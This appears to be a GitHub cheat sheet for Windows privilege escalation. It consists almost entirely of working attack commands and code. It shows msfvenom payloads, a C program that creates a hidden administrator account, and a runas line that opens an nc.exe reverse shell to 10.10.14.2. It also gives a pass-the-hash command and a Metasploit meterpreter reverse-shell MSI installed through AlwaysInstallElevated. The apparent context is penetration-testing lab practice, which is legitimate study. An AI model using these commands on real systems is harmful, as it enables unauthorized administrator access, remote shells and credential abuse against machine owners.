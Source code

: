 
# Generate Malicious Executables
### MsfVenom
#### Adduser
\*Note: On x64 machine you should use bat2exe.bat to create 64 bit executable\*
```
1\. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o exploit.exe
2\. Copy the generated file, exploit.exe, to the Windows VM.
```
### C Script 
Write and compile malicious exe file to add a user to the system as an admin
#### Adduser
##### Contents of adduser.c
```
#include &lt;stdlib.h&gt;

int main ()
{

	int i;

	i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");

		return 0;
}
```

##### Compile adduser.c on kali
```
sudo i686-w64-mingw32-gcc adduser.c -o exploit.exe
```

#  Exploit Sensitive data
## Passwords reuse
### cmdkey
```
runas /savecred /user:ACCESS\\Administrator "c:\\windows\\system32\\cmd.exe /c \\\IP\\share\\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  
```
## Passwords in Registry
### Pass the Hash
Use the NTLM hash to authenticate 
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2 eb3b9f05c425e //10.11.0.22 cmd
```
# Exploit Misconfigurations

## Privileges 

### AlwaysInstallElevated

#### Kali VM
```
1\. Open command prompt and type: msfconsole
2\. In Metasploit (msf > prompt) type: use multi/handler
3\. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4\. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address\]
5\. In Metasploit (msf > prompt) type: run
6\. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=\[Kali VM IP Address\] -f msi -o setup.msi
7\. Copy the generated file, setup.msi, to the Windows VM.
```
#### Windows VM
```
1.Place ‘setup.msi’ in ‘C:\\Temp’.
2.Open command prompt and type: msiexec /quiet /qn /i C:\\Temp\\setup.msi
```
## Services 
### Service Path modification
### Unquoted Service Path 
```
1\. Place Unquoted.exe in ‘C:\\Program Files\\Unquoted Path Service’.
2\. Open command prompt and type: sc start unquotedsvc
```

